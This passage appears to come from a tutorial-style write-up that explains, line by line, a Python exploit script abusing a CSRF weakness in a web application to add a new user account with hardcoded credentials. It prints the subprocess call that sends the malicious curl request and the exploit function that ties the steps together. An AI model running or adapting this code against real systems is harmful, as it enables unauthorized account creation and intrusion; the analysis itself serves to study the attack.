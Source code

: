     What is strange though is that the logic then uses `-X GET` which contradicts the `-I` flag as both flags are trying to control the HTTP method being used.  I'm unsure if this is intentional or a mistake by the author. Just to note, `curl` will typically prioritize the `-X` flag meaning this would still result in a `GET` request.

    The `target_url` &amp; `vuln_path` are combined to form the final endpoint. If you remember, `vuln_path` contains the `password` &amp; `username` of our new user as well as the other required url parameters to create the new users.

    The remaining lines contain standard HTTP headers required to mimic a legitimate browser request. the `GET` request, as well as our `csrf_token` cookie passed for validation.



-  process the cmd command:

    This logic is used for actually sending the malicious request via the subprocess library.

    ```python

            process = subprocess.Popen(add_credentials_cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
            output, error = process.communicate()
            if "200" in str(output):
                color.print("[green][+][/green] Successfully added, here are the credentials")
                color.print(f"[green][+][/green] Username: [green]{username}[/green]")
                color.print(f"[green][+][/green] Password: [green]{password}[/green]")
            else:
                color.print("[red][~][red] Failed to add credentials")
    ```

    We create a variable called `process` which opens a new subprocess and executes the `add_credentials_cmd` `curl` request defined in the previous step. It opens a `shell` (to run the command) and captures both `stdout` and `stderr` using `subprocess.PIPE`.

    We then call `process.communicate()` which returns a tuple containing the `stdout` and `stderr`, which we store in the variables `output` &amp; `error`.

    The logic then checks if the string `200` (a valid HTTP response) is contained in the `output` (`stdout`). If does we print a success message otherwise we print a failure messsage.


##### `exploit` function: {#exploit-function}

This is, as you have probably guessed where the exploit logic is executed.

```python
def exploit(target_url):
    username = "hugme"
    password = "HugmeNOW"
    try:
        csrf_token = get_csrf_token(target_url)
        if csrf_token:
            add_credentials(target_url, csrf_token, username, password)
        else:
            color.print("[red][~][/red] CSRF token not found in headers. Vulnerability may not exist.")
    except requests.RequestException:
        pass
```

